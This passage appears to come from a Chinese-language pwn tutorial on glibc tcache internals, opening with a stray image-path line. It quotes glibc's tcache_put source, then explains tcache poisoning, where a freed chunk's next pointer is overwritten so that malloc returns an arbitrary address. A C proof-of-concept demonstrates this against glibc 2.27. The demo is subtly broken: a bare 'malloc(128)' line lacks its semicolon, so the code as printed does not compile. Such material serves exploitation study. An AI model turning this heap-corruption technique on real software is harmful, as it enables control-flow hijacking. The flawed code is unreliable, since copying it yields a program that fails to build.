 - `tcache_put`函数，该函数把释放的`chunk`插入到`tcache_entries`的头部，然后`tcache_counts[tc_idx]`加一，整个插入的过程中没有做任何的安全检查和保护措施，也没有将标志位`P`设置为`0`

```c
/* Caller must ensure that we know tc_idx is valid and there's room
for more chunks.  */
static void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
    tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
    assert (tc_idx < TCACHE_MAX_BINS);
    e->next = tcache->entries[tc_idx];
    tcache->entries[tc_idx] = e;
    ++(tcache->counts[tc_idx]);
}
```

## Pwn Tcache
### tcache poisoning

`tcache poisoning`的攻击手法是覆盖`tcache`中的`next`成员变量，由于`tcache_get`函数中并没有对`next`进行检查，当`next`中的地址被替换后，不需要伪造任何`chunk`结构即可实现`malloc`到任何地址

- `tcache poisoning demo`

```c
// gcc -fno-stack-protector -no-pie -g tcache-poisoning-demo.c -o tcache-poisoning-demo
// patchelf --set-interpreter /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 --set-rpath /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64 tcache-poisoning-demo

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	size_t stack_var;
	printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

	intptr_t *a = malloc(128);
	printf("malloc(128): %p\n", a);
	intptr_t *b = malloc(128);
	printf("malloc(128): %p\n", b);

	free(a);
	free(b);

	b[0] = (intptr_t)&stack_var;

	malloc(128)
	intptr_t *c = malloc(128);
	printf("2nd malloc(128): %p\n", c);

	assert((long)&stack_var == (long)c);
	return 0;
}
```
